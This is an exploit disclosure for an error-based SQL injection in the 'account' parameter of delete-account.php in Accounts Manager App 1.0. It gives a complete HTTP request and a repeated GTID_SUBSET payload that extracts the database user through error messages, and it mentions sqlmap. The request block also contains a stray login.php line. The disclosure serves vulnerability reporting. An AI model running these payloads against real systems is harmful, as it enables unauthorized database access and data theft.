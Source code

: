 # Accounts Manager App - delete-account.php 'account' SQL inject

#### Exploit Title: Accounts Manager App - delete-account.php 'account' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/17482/accounts-manager-app-using-php-and-mysql-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=17482&title=Accounts+Manager+App+Using+PHP+and+MySQL+with+Source+Code

#### Version: Accounts Manager App 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Accounts Manager App does not filter the content correctly at the "endpoint/delete-account.php" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
GET http://192.168.67.35:8093/endpoint/delete-account.php?account=7'%20AND%20GTID_SUBSET(CONCAT(0x7170716b71,(SELECT%20user()),0x716a6b7871),4674)--%20nxwp HTTP/1.1
Host: 192.168.67.35:8093
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、Visit the homepage, click to delete the entry, and after capturing the package, find that the file used is delete-account.php

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-APP/images/sql2.png)

2、Upon reviewing the source code, it was discovered that the account parameter was directly concatenated into the SQL statement

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-APP/images/sql4.png)

4、Construct error injection, annotate database username, and successfully reproduce SQL injection vulnerability.

payload:`account=6'%20AND%20GTID_SUBSET(CONCAT(0x7170716b71,(SELECT%20user()),0x716a6b7871),4674)--%20nxwp`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-APP/images/sql1.png)

5、You can also directly use the sqlmap tool to run the results

![image](https://github.com/joinia/webray.com.cn/blob/main/Accounts-Manager-APP/images/sql3.png)

